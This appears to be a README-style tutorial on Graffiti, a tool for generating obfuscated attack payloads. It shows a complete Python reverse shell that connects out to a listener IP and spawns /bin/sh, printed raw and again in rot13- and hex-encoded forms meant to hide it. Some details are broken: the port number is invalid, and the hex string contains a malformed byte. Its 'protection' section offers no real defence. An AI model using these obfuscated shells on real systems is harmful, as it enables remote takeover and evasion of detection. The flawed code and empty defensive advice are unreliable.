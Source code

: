 # Study of one of the hacking SUBJECT 
<p align="center">
  <img src="https://user-images.githubusercontent.com/14183473/49157062-8a351500-f2e4-11e8-80cd-00acd809171e.png">
</p>

# What GRAFFITI is?
Graffiti is a tool that uses a number of different encoding techniques to create obfuscated payloads.

### It offers an array of one-liners and shells in languages such as:

 - Python
 - Perl
 - PHP
 - Powershell
 - Bash

Graffiti will also accept a language that is not currently on the list and store the oneliner into a database.

### Payloads can be encoded using the following techniques:

 - Base64
 - Hex
 - AES256
 - ...



### Features

 - Option to run native OS commands
 - Multiple encoding techniques 
 - Terminal history
 - Ability to run external commands
 - Ability to securely wipe the history files
 - Ability to create your own payload files
 
# What is the mechanism how to do it?
First, we need to clone into the Github for [Graffiti](https://github.com/Ekultek/Graffiti) by using `git` command

![e1800918](pic/1.PNG)

Then get into that directory and list everything to compare what is missing or not by using `ls` command

![e1800918](pic/2.PNG)

Graffiti comes with a builtin terminal, when you pass no flags to the program it will drop into the terminal. The terminal has history, the ability to run external commands, and it's own internal commands. In order to get help, type `graffiti -h`:

![e1800918](pic/3.PNG)

# Now, let's the running begins

The easy way to run Graffiti is in normal command-line mode. All we have to do is pass the arguments after the command, just like you would with any other tool or script. For example, we can list all available payloads with the `-l` command

![e1800918](pic/4.PNG)

We can see that there are options segregated between Windows and Linux for [Netcat shells](https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-netcat-swiss-army-knife-hacking-tools-0148657/), [Python shells](https://wiki.python.org/moin/PythonShells) and several others.

Graffiti comes complete with a database that will insert each encoded payload into it, in order to allow end users to view already created payloads for future use. To see the available encoders for the payloads, type `-Vc`

![e1800918](pic/5.PNG)

The `-p` command is the staff of life of Graffiti — use it to specify a payload, followed by `-c` to specify the encoding technique, and finally `-lH` and `-lP` to set the listening address and port, respectively. Here's a raw-format Python reverse shell which means no encoding:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c raw -lH 18.0.9.18 -lP 1800918
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("18.0.9.18",1800918));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

That will spit out the command for the appropriate reverse shell with all the information filled in.

Let's seek a different example. but encoded in rot13:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c rot13 -lH 18.0.9.18 -lP 1800918
python -c 'exec("vzcbeg fbpxrg,fhocebprff,bf;f=fbpxrg.fbpxrg(fbpxrg.NS_VARG,fbpxrg.FBPX_FGERNZ);f.pbaarpg((\"18.0.9.18\",1800918));bf.qhc2(f.svyrab(),0); bf.qhc2(f.svyrab(),1); bf.qhc2(f.svyrab(),2);c=fhocebprff.pnyy([\"/ova/fu\",\"-v\"]);".decode("rot13"))'

```

Another one with hex:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c hex -lH 18.0.9.18 -lP 1800918
python -c 'exec("696d706f727420736f636b65742c73756270726f636573732c6f733b733d736f636b65742e736f636b657428736f636b65742e41465f494e45542c736f636b65742e534f434b5f53545245414d293b732e636f6e6e65637428282231382e302e392e3138222c3138303039313829293b6f732e6475703228732e66696c656e6f28292c30293b20f732e6475703228732e66696c656e6f28292c31293b206f732e6475703228732e66696c656e6f28292c32293b703d73756270726f636573732e63616c6c285b222f62696e2f7368222c222d69225d293b".decode("hex"))'

```

Graffiti keeps a cache of payloads like a history for easy access, don't need to run those commands above again. Use the `-vC` option to see them:

![e1800918](pic/6.PNG)

We can also clear the history with the `-W` command:

![e1800918](pic/7.PNG)

# The other way to run Graffiti is in its interactive mode, which comes with a built-in terminal environment. There are more commands and clearly informations.

First of all, just type in `graffiti`:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti

  ________              _____  _____.__  __  .__
 /  _____/___________ _/ ____\/ ____\__|/  |_|__|
/   \  __\_  __ \__  \\   __\\   __\|  \   __\  |
\    \_\  \  | \// __ \|  |   |  |  |  ||  | |  |
 \______  /__|  (____  /__|   |__|  |__||__| |__|
        \/           \/
 v(0.0.10)

no arguments have been passed, dropping into terminal type `help/?` to get help, all commands that sit inside of `/bin` are available in the terminal
root@graffiti:~/graffiti#

```

Let's take a look at the help menu, type `help` or `?` :

![e1800918](pic/8.PNG)

We can check if we have the up-to-date version of the graffiti by `check` command:

![e1800918](pic/9.PNG)

We can get Linux kernel version and some other system information with the `uname -a` command in Linux.

![e1800918](pic/10.PNG)

The `list` command will show all the available payloads but not clearly allocated like the `-l` switch from the normal command-line mode:

![e1800918](pic/11.PNG)

We can create a payload with the `use` command, followed by the desired payload and the type of encoding to use:

![e1800918](pic/12.PNG)

As same as Graffiti's command-line mode, we can view a history of cached payloads by using the `cached` command. We can also display the command history with the `history` option:

Finally, to exit interactive mode, just type `exit`:

![e1800918](pic/13.PNG)

# How to protect from it or uncover it?

Just never upload payloads to online checkers.

# Summary

We learned in this tutorial how to use a tool called Graffiti in order to create obfuscated payloads for use in penetration testing and hacking. Second, we set up the platform and have it mounted easily on our system. Next, we explored the command-line mode and some of its options, including listing payloads, viewing history, and generating encoded payloads using a variety of techniques. Then we looked at the interactive mode and how it's easy to use to create payloads, all from an interactive prompt.



